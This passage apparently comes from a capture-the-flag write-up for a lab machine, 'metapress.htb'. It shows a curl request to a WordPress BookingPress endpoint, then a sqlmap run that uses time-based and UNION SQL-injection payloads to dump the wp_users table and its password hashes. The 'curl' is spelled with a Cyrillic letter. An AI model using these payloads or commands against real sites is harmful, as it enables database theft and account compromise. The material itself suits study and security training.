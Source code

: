 ```bash
$ сurl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=f600af85bb&category_id=33&total_service=2' -x http://127.0.0.1:8080
```

After catching the request and saving it to a file, let’s try slqmap:

```bash
$ sqlmap -r post.txt -p total_service -D blog -T wp_users --dump
 

[*] starting @ 22:44:24 /2022-12-06/

[22:44:24] [INFO] parsing HTTP request from 'post.txt'
[22:44:24] [INFO] resuming back-end DBMS 'mysql' 
[22:44:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: total_service (POST)
  Type: time-based blind
  Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
  Payload: action=bookingpress_front_get_category_services&_wpnonce=be77c6197f&category_id=33&total_service=1) AND (SELECT 5232 FROM (SELECT(SLEEP(5)))hLrl) AND (2634=2634

  Type: UNION query
  Title: Generic UNION query (NULL) - 9 columns
  Payload: action=bookingpress_front_get_category_services&_wpnonce=be77c6197f&category_id=33&total_service=1) UNION ALL SELECT NULL,NULL,CONCAT(0x71716b7871,0x5061684c6658754c64624e62786e504a7049646552447a744e6e71517255776177426b4244736476,0x71766a6a71),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[22:44:24] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.0.24, Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:44:24] [INFO] fetching columns for table 'wp_users' in database 'blog'
[22:44:24] [INFO] fetching entries for table 'wp_users' in database 'blog'
[22:44:24] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] N
Database: blog
Table: wp_users
[2 entries]
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+------------------------+
| ID | user_url            | user_pass                          | user_email             | user_login | user_status | display_name  | user_nicename | user_registered       | user_activation_key |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+------------------------+
| 1 | http://metapress.htb | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. | admin@metapress.htb    | admin      | 0           | admin         | admin         | 2022-06-23 17:58:28   | <blank>             |
| 2 | <blank>              | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 | manager@metapress.htb  | manager    | 0           | manager       | manager       |  2022-06-23 18:07:55  | <blank>             |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+------------------------+
[*] ending @ 22:44:28 /2022-12-06/
```
